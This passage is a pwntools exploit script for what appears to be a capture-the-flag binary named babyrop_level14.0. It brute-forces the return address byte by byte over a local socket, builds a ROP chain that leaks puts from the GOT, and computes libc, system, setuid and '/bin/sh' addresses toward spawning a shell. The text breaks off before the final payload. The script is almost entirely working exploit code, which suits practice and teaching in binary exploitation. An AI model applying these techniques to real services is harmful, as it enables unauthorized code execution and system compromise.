print(canary_str)
canary=int(canary_str,16)

elf=ELF("/challenge/babyrop_level14.0")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

payload=b'b'*0x38+p64(canary)+p64(0)+b'\x21'

basic_list=[]
for round in range(7):
    for i in range(0xff):
        p=remote("127.0.0.1","1337")
        test_payload=payload+i.to_bytes(1, byteorder='little')
        p.send(test_payload)
        res_str=str(p.recvall())
        if res_str.find("Goodbye!")!=-1:
            p.close()
            payload+=i.to_bytes(1, byteorder='little')
            basic_list.append(i)
            break
        p.close()
print(basic_list)
basic_str="0x"
for i in range(len(basic_list)):
    tt=hex(basic_list[-(i+1)])[2:]
    if(len(tt)!=2):
        tt='0'+tt
    basic_str+=tt
basic_str+="21"
print(basic_str)

basic=int(basic_str,16)-0x2921
print(hex(basic))
rdi_ret=0x29b3+basic
rsi_r15_ret=0x29b1+basic
bin_sh_offset=0x1b75aa
puts_offset=libc.symbols["puts"]
puts_plt=elf.plt["puts"]+basic
puts_got=elf.got["puts"]+basic

payload=b'b'*0x38+p64(canary)+p64(0)+p64(rdi_ret)+p64(puts_got)+p64(puts_plt)

p=remote("127.0.0.1","1337")
p.send(payload)

p.recvuntil("Leaving!\n")
puts_add=u64(p.recv(6)+b'\x00\x00')
print(hex(puts_add))

p.close()

libc_basic=puts_add-puts_offset
setuid_add=libc_basic+libc.symbols["setuid"]
sys_add=libc_basic+libc.symbols["system"]
bin_sh=libc_basic+bin_sh_offset
